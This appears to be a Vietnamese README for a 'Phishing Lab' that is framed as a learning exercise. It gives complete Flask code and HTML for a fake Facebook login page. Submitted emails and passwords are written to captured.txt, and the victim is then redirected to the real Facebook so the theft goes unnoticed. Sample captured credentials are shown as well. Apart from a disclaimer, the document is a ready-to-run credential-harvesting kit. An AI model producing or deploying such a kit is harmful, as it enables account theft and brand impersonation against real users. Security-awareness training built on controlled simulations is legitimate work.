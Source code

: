 
# Phishing Lab – Mô phỏng trang đăng nhập giả sử dụng Flask

## 1. Giới thiệu

Phishing Lab là một mô hình thử nghiệm mô phỏng tấn công giả mạo đăng nhập (phishing attack), được xây dựng với mục đích học tập và nghiên cứu trong lĩnh vực an toàn thông tin. Hệ thống được phát triển bằng ngôn ngữ Python, sử dụng framework Flask để cung cấp giao diện web và xử lý yêu cầu HTTP.

Mục tiêu của mô hình là triển khai một trang đăng nhập có giao diện tương tự các nền tảng phổ biến như Facebook hoặc Gmail. Khi người dùng nhập thông tin đăng nhập và gửi biểu mẫu, dữ liệu sẽ được lưu vào tệp nhật ký nội bộ và trình duyệt sẽ được chuyển hướng tới trang web chính thức nhằm đánh lừa cảm giác bị giả mạo.

> Lưu ý: Toàn bộ nội dung trong tài liệu này và mã nguồn đi kèm chỉ phục vụ cho mục đích học tập, mô phỏng trong môi trường riêng biệt. Người sử dụng phải chịu hoàn toàn trách nhiệm nếu sử dụng cho các mục đích không hợp pháp hoặc gây hại cho người khác.

---

## 2. Yêu cầu hệ thống

- Windows 10 hoặc 11 có cài đặt WSL (Ubuntu khuyến nghị)
- Python 3.6 trở lên
- Trình quản lý gói `pip`
- Trình duyệt web trên hệ điều hành Windows (Chrome, Firefox, Edge,...)

---

## 3. Cài đặt và cấu hình

### 3.1. Khởi tạo dự án

Mở terminal WSL và thực hiện các bước sau:

```bash
mkdir ~/phishing_lab
cd ~/phishing_lab
````

### 3.2. Tạo tập tin `app.py`

Sử dụng trình soạn thảo `nano`:

```bash
nano app.py
```

Dán nội dung sau vào:

```python
from flask import Flask, request, redirect, render_template
from datetime import datetime

app = Flask(__name__)

@app.route("/", methods=["GET"])
def index():
    return render_template("login.html")

@app.route("/login", methods=["POST"])
def login():
    email = request.form.get("email")
    password = request.form.get("password")
    with open("captured.txt", "a") as f:
        f.write(f"[{datetime.now()}] Email: {email}, Password: {password}\n")
    return redirect("https://facebook.com")

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)
```

Lưu và thoát:

* Nhấn `Ctrl + O`, Enter để lưu
* Nhấn `Ctrl + X` để thoát

---

### 3.3. Tạo thư mục và giao diện HTML

```bash
mkdir templates
nano templates/login.html
```

Nội dung:

```html
<!DOCTYPE html>
<html>
<head>
    <title>Facebook – log in or sign up</title>
    <style>
        body {
            font-family: Arial;
            background-color: #f0f2f5;
            text-align: center;
        }
        .login-box {
            background: white;
            padding: 20px;
            margin: auto;
            width: 300px;
            margin-top: 100px;
            border-radius: 10px;
            box-shadow: 0 0 10px gray;
        }
        input[type=text], input[type=password] {
            width: 90%;
            padding: 10px;
            margin: 8px 0;
            border: 1px solid #ddd;
        }
        button {
            padding: 10px 15px;
            width: 100%;
            background: #1877f2;
            color: white;
            border: none;
            margin-top: 10px;
        }
    </style>
</head>
<body>
    <div class="login-box">
        <h2>Log in to Facebook</h2>
        <form method="POST" action="/login">
            <input type="text" name="email" placeholder="Email address" required><br>
            <input type="password" name="password" placeholder="Password" required><br>
            <button type="submit">Log In</button>
        </form>
    </div>
</body>
</html>
```

---

### 3.4. Cài đặt Flask

Cài đặt Flask thông qua `pip`:

```bash
sudo apt update
sudo apt install python3-pip -y
pip3 install flask
```

---

## 4. Khởi động và kiểm thử

### 4.1. Chạy ứng dụng

```bash
python3 app.py
```

Kết quả hiển thị:

```
 * Running on http://0.0.0.0:5000/
```

### 4.2. Lấy địa chỉ IP của WSL

Trong terminal:

```bash
ip addr show eth0
```

Tìm dòng chứa `inet`, ví dụ:

```
inet 172.27.199.168/20
```

Địa chỉ này là IP của WSL.

### 4.3. Truy cập từ trình duyệt Windows

Mở trình duyệt và truy cập:

```
http://172.27.199.168:5000
```

(Thay địa chỉ IP bằng IP của WSL)

Trang đăng nhập giả sẽ được hiển thị. Sau khi nhập thông tin và bấm nút đăng nhập, dữ liệu sẽ được lưu tại tệp `captured.txt` và người dùng được chuyển hướng về trang Facebook chính thức.

---

## 5. Kiểm tra dữ liệu đã ghi

Trong WSL:

```bash
cat captured.txt
```

Dữ liệu sẽ có dạng:

```
[2025-08-06 14:23:45.123456] Email: victim@example.com, Password: 12345678
```

---

## 6. Kết thúc phiên làm việc

Nhấn `Ctrl + C` để dừng server Flask.

---

## 7. Ghi chú quan trọng

* Không triển khai hệ thống này trên các môi trường mạng thực tế hoặc công cộng.
* Không sử dụng công cụ này vào mục đích lừa đảo, thu thập dữ liệu cá nhân trái phép hoặc bất kỳ hành vi phi đạo đức nào.
* Phishing Lab chỉ nên sử dụng trong môi trường kiểm thử cá nhân, với mục tiêu nghiên cứu và nâng cao nhận thức về bảo mật.

---
